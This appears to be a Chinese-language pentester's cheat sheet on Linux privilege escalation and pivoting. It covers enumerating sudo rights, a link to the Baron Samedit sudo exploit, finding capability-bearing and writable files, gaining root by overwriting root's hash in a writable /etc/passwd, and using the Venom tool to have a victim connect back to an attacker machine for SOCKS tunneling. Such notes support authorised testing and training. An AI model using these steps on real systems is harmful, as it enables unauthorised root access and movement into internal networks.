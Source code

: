 ### sudo配置

`sudo -l`

#### sudo Baron Samedit

sudo漏洞	sudo <1.9.5p1

[CVE-2021-3156](https://github.com/worawit/CVE-2021-3156#cve-2021-3156-sudo-baron-samedit) (Sudo Baron Samedit)

---

### Capabilities

与sudo原理类似,但权限控制更细致

寻找具有特殊cap的文件:`/sbin/getcap / -r`

注意:大部分linux机器没有此指令

### Writable Files

`find / -writable 2>/dev/null | grep -v /proc | grep -v /run | grep -v /sys`

#### `/etc/passwd`可写:

`openssl passwd -1`生成`Salted md5`

将root用户的第二栏(密码)修改为此加盐密码

---

### 检查docker

`ls /.dockerenv`

`cat /proc/1/cgroup`

---

### 内网转发

---

**[Venom](https://github.com/Dliv3/Venom)**:

​	1.Kali启动Venom管理端:	`./admin_linux_x64 -lport <LPORT>`

​	2.Victim回连:	`./agent_linux_x64 -rhost <RHOST> -rport <RPORT>`

​	3.Kali启动本地socks代理:`show; goto <n>; socks <port>`

​	4.kali修改代理配置文件:	`sudo vi /etc/proxychains4.conf`;添加`socks5 127.0.0.1 <socks_port>`

​	5.`proxychains <command>`进行内网转发的命令

注:socks5协议只支持tcp与udp,并不支持arp与ICMP协议

---